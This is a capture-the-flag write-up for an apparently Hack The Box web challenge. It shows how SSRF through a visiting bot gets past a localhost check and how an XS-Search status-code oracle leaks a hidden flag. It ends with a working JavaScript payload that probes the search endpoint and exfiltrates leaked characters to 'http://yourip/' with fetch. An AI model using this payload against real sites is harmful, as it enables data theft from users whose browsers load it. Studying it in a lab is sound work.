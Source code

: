 ## AbuseHumanDB - Easy

After downloading the necessary files for the callenge and taking a look at the source code you will see
```
  - routes/
  - static/
  - views/
  - bot.js
  - database.js
  - index.js
  - package.json
```
By reviewing the source code to check it out the flag ( Our goal ) you will find it in

**database.js**
```js
INSERT INTO userEntries (title, url, approved) VALUES ("Back The Hox", "https://ctf.backthehox.ew/ctf/82", 1);
INSERT INTO userEntries (title, url, approved) VALUES ("Drunk Alien Song", "https://www.youtune.com/watch?v=jPPT7TcFmAk", 1);
INSERT INTO userEntries (title, url, approved) VALUES ("Mars Attacks!", "https://www.imbd.com/title/tt0116996/", 1);
INSERT INTO userEntries (title, url, approved) VALUES ("Professor", "https://www.thebun.co.uk/tech/4119382/professor-steven-rolling-fears-aliens-could-plunder-conquer-and-colonise-earth-if-we-contact-them/", 1);
INSERT INTO userEntries (title, url, approved) VALUES ("HTB{f4k3_fl4g_f0r_t3st1ng}","https://app.backthehox.ew/users/107", 0);
```
so our goal is to get a non-approved Post from userEntries and how can that happen? if a file calls any of those functions `listEntires` or `getEntry` with `approved=0`
```js
async listEntries(approved=1) {
        return new Promise(async (resolve, reject) => {
            try {
                let stmt = await this.db.prepare("SELECT * FROM userEntries WHERE approved = ?");
                resolve(await stmt.all(approved));
            } catch(e) {
                console.log(e);
                reject(e);
            }
        });
    }

async getEntry(query, approved=1) {
        return new Promise(async (resolve, reject) => {
            try {
                let stmt = await this.db.prepare("SELECT * FROM userEntries WHERE title LIKE ? AND approved = ?");
                resolve(await stmt.all(query, approved));
            } catch(e) {
                console.log(e);
                reject(e);
            }
        });
    }
```

Don't waste your time reading all of the source code we know our goal and injection point so let's look for the functions the execute `listEntries` or `getEntry`

**routes/index.js**
```js
router.get('/api/entries/search', (req, res) => {
	if(req.query.q) {
		const query = `${req.query.q}%`;
		return db.getEntry(query, isLocalhost(req))
			.then(entries => {
				if(entries.length == 0) return res.status(404).send(response('Your search did not yield any results!'));
				res.json(entries);
			})
			.catch(() => res.send(response('Something went wrong! Please try again!')));
	}
	return res.status(403).json(response('Missing required parameters!'));
});
```
it contains `db.getEntry(query, isLocalhost(req))` and returns `200` status code if the query exists but if not it returns `404` but what is `isLocalhost`?

```js
const isLocalhost = req => ((req.ip == '127.0.0.1' && req.headers.host == '127.0.0.1:1337') ? 0 : 1);
```
so if our `req.ip` is `127.0.0.1` and `req.headers.host` is `127.0.0.1:1337` it returns `0` and thats our goal but how?
if you took a look at the website then you already know your injection point

![image](https://user-images.githubusercontent.com/32434709/140931055-37583048-5d1a-4012-b903-49fcbdd03195.png)

```js
router.post('/api/entries', (req, res) => {
	const { url } = req.body;
	if (url) {
		uregex = /https?:\/\/(www\.)?[-a-zA-Z0-9@:%._\+~#=]{1,256}\.[a-zA-Z0-9()]{1,6}\b([-a-zA-Z0-9()@:%_\+.~#?&\/\/=]*)/
		if (url.match(uregex)) {
			return bot.visitPage(url)
				.then(() => res.send(response('Your submission is now pending review!')))
				.catch(() => res.send(response('Something went wrong! Please try again!')))
		}
		return res.status(403).json(response('Please submit a valid URL!'));
	}
	return res.status(403).json(response('Missing required parameters!'));
});
```
So we can make the bot visit the url `http://127.0.0.1:1337/api/entries/search?q=query` and it will bypass the isLocalhost method.
But how can we get the flag then? let's check XSS then in the bot to see if we can execute javascript
Ok wait a second we have `SSRF, XSS` and our URL returns different Status Code if a query is valid so doesn't this mean XSSearch?

![image](https://user-images.githubusercontent.com/32434709/140932469-d3541d08-eef3-4013-9a43-8bba51191249.png)

so let's try it out create a html file in your vps and run your server

```html
<script>
var chars = '_0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ!{} ';
var charLen = chars.length;
var leak = "HTB";
var charNum = 0;
function search(leak){
        for (var i = 0; i < chars.length; i++) {
                var curChar = chars[i];
                probeError('http://127.0.0.1:1337/api/entries/search?q='+leak+curChar);
        }
}

function probeError(url) {
  let script = document.createElement('script');
  script.src = url;
  script.onload = () => {
          leak = url.split("?")[1].replace("q=", "");
          fetch("http://yourip/"+leak); // if it returns 200 OK then the query returned our Flag send it to our server
        }
  script.onerror = () => {
          console.log("error"); // If it returns 404 Code then the query is invalid and we don't care about it
  };
  document.head.appendChild(script);
}
search(leak);

</script>
```
I'm lazy to be honest so i didn't write a loop to bruteforce the flag itself you need to get each new character and append it to the `leak` string yourself

![image](https://user-images.githubusercontent.com/32434709/140931735-aecf8c7a-d9cc-4116-ab3d-d2b5e73d9005.png)

and thats it. Simple and Easy 
